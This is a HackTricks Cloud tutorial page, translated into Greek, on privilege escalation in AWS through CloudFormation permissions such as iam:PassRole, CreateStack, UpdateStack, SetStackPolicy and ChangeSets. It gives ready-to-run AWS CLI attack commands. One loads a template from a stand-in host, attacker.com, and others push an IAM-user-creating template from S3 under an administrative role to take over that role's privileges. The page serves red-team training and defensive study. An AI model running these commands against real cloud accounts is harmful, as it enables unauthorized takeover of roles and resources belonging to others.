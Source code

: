 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

Για περισσότερες πληροφορίες σχετικά με το cloudformation, ελέγξτε:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Ένας επιτιθέμενος με αυτές τις άδειες **μπορεί να κλιμακώσει τα προνόμια** δημιουργώντας ένα **CloudFormation stack** με ένα προσαρμοσμένο πρότυπο, φιλοξενούμενο στον διακομιστή του, για να **εκτελέσει ενέργειες υπό τις άδειες ενός καθορισμένου ρόλου:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Στην παρακάτω σελίδα έχετε ένα **παράδειγμα εκμετάλλευσης** με την επιπλέον άδεια **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας cloudformation που καθορίζεται.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Σε αυτή την περίπτωση μπορείτε να **καταχραστείτε μια υπάρχουσα στοίβα cloudformation** για να την ενημερώσετε και να κλιμακώσετε τα προνόμια όπως στο προηγούμενο σενάριο:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για να **δώσετε στον εαυτό σας άδεια `UpdateStack`** πάνω σε ένα stack και να εκτελέσετε την επίθεση.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας cloudformation που έχει καθοριστεί.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Εάν έχετε αυτή την άδεια αλλά **όχι `iam:PassRole`**, μπορείτε ακόμα να **ενημερώσετε τα stacks** που χρησιμοποιούνται και να εκμεταλλευτείτε τους **IAM Ρόλους που έχουν ήδη συνημμένους**. Ελέγξτε την προηγούμενη ενότητα για παράδειγμα εκμετάλλευσης (απλά μην υποδείξετε κανέναν ρόλο στην ενημέρωση).

Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για να **δώσετε στον εαυτό σας άδεια `UpdateStack`** πάνω σε ένα stack και να εκτελέσετε την επίθεση.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας cloudformation που έχει ήδη συνημμένο.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Ένας επιτιθέμενος με άδειες να **περάσει έναν ρόλο και να δημιουργήσει & εκτελέσει ένα ChangeSet** μπορεί να **δημιουργήσει/ενημερώσει ένα νέο cloudformation stack και να εκμεταλλευτεί τους ρόλους υπηρεσίας cloudformation** ακριβώς όπως με το CreateStack ή UpdateStack.

Η παρακάτω εκμετάλλευση είναι μια **παραλλαγή του**[ **CreateStack**](./#iam-passrole-cloudformation-createstack) χρησιμοποιώντας τις **άδειες ChangeSet** για να δημιουργήσει ένα stack.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για να **δώσετε στον εαυτό σας άδειες `ChangeSet`** πάνω σε ένα stack και να εκτελέσετε την επίθεση.

**Πιθανές Επιπτώσεις:** Privesc σε ρόλους υπηρεσίας cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Αυτό είναι όπως η προηγούμενη μέθοδος χωρίς να περάσετε **ρόλους IAM**, οπότε μπορείτε απλά να **καταχραστείτε αυτούς που είναι ήδη συνδεδεμένοι**, απλά τροποποιήστε την παράμετρο:
```
--change-set-type UPDATE
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας cloudformation που είναι ήδη συνημμένος.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτές τις άδειες για να δημιουργήσει/ενημερώσει StackSets για να εκμεταλλευτεί αυθαίρετους ρόλους cloudformation.

**Πιθανές Επιπτώσεις:** Privesc στους ρόλους υπηρεσίας cloudformation.

### `cloudformation:UpdateStackSet`

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτή την άδεια χωρίς την άδεια passRole για να ενημερώσει StackSets για να εκμεταλλευτεί τους συνημμένους ρόλους cloudformation.

**Πιθανές Επιπτώσεις:** Privesc στους συνημμένους ρόλους cloudformation.

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
